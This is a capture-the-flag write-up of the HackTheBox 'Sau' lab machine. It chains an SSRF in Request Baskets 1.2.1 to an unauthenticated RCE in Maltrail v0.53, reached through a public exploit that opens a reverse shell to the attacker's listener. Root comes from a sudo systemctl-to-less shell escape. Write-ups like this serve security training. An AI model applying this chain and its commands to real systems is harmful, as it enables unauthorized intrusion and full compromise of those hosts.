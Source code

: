 ```yaml
---
Platform:
  - HackTheBox
Difficulty: Easy
tags:
  - RCE
  - SSRF
  - suid
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First I started by scanning for open ports on the target machine.

![[Sau/assets/Untitled.png|Untitled.png]]

![[Sau/assets/Untitled 1.png|Untitled 1.png]]

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

![[Sau/assets/Untitled 2.png|Untitled 2.png]]

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this: [https://www.exploit-db.com/exploits/51675](https://www.exploit-db.com/exploits/51675), which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

![[Sau/assets/Untitled 3.png|Untitled 3.png]]

Next make a note on the basket name and the access token and click on open basket.

![[Sau/assets/Untitled 4.png|Untitled 4.png]]

After opening the basket click on the settings icon on the top right corner.

![[Sau/assets/Untitled 5.png|Untitled 5.png]]

It open a configuration dialog box.

![[Sau/assets/Untitled 6.png|Untitled 6.png]]

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

![[Sau/assets/Untitled 7.png|Untitled 7.png]]

Now open the link [ mentioned in the above picture, link might be different in your case ] in a new tab.

![[Sau/assets/Untitled 8.png|Untitled 8.png]]

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this [https://www.exploit-db.com/exploits/51676](https://www.exploit-db.com/exploits/51676), from which we can device that the service is vulnerable to RCE.

So I downloaded the payload [ [https://www.exploit-db.com/download/51676](https://www.exploit-db.com/download/51676) ] to give it a try.

![[Sau/assets/Untitled 9.png|Untitled 9.png]]

Before executing the payload, I started a `netcat` listener on port 8000.

![[Sau/assets/Untitled 10.png|Untitled 10.png]]

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

![[Sau/assets/Untitled 11.png|Untitled 11.png]]

After executing the exploit, check the `netcat` listener.

![[Sau/assets/Untitled 12.png|Untitled 12.png]]

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![[Sau/assets/Untitled 13.png|Untitled 13.png]]

And also I found the user flag.

![[Sau/assets/Untitled 14.png|Untitled 14.png]]

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

![[Sau/assets/Untitled 15.png|Untitled 15.png]]

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![[Sau/assets/Untitled 16.png|Untitled 16.png]]

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

![[Sau/assets/Untitled 17.png|Untitled 17.png]]

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

![[Sau/assets/Untitled 18.png|Untitled 18.png]]

We have successfully found the root flag.

  

  

Thank You…….